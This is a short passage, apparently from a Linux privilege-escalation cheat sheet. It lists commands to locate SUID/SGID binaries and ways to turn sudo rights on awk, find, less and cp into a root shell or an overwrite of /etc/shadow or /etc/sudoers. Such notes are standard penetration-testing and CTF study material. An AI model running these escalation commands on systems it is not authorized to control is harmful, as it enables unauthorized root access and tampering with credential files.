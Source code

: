 ```text
nano
cp
mv
find
```

**Find suid and guid files**

```text
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with. Any program that can write or overwrite can be used. For example, if you have sudo-rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

`awk`

```text
awk 'BEGIN {system("/bin/bash")}'
```

`bash`

`cp`  
Copy and overwrite /etc/shadow

`find`

```bash
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

`ht`

The text/binary-editor HT.

`less`

From less you can go into vi, and then into a shell.

```text
sudo less /etc/shadow
v
:shell
```

`more`

You need to run more on a file that is bigger than your screen.
